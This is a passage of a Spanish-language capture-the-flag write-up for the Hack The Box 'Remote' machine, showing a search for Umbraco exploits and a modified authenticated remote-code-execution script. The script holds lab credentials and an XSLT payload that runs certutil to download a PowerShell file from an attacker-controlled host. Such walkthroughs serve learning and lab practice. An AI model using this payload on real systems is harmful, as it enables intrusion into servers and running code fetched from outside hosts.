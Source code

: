 Con **searchexploit** encontramos un exploit que **requiere de autenticación** para obtener una **ejecución remota de comandos** en sistemas umbraco:

```console
$ searchsploit Umbraco
```
![Searchsploit](/assets/htb/02_remote/10_searchsploit_umbraco.png)
_Busqueda de exploit's para el software Umbraco_

Inicialmente tenemos identificado el exploit [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153):
- exploits/aspx/webapps/46153.py

## Explotación

Así que le realizamos algunos cambios para que pueda funcionar de forma adecuada, agregamos el target y el payload que queremos: 
- Login: admin@htb.local
- Password: baconandcheese
- Host: http://10.10.10.180

```python
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators
# Dork: N/A
# Date: 2019-01-13
# Exploit Author: Gregory DRAPERI & Hugo BOUTINON
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# CVE: N/A


import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());
    
print("Start");

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "/c certutil.exe -urlcache -f http://10.10.14.45/d14.ps1 C:\\site_backups\\d14.ps1"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";

```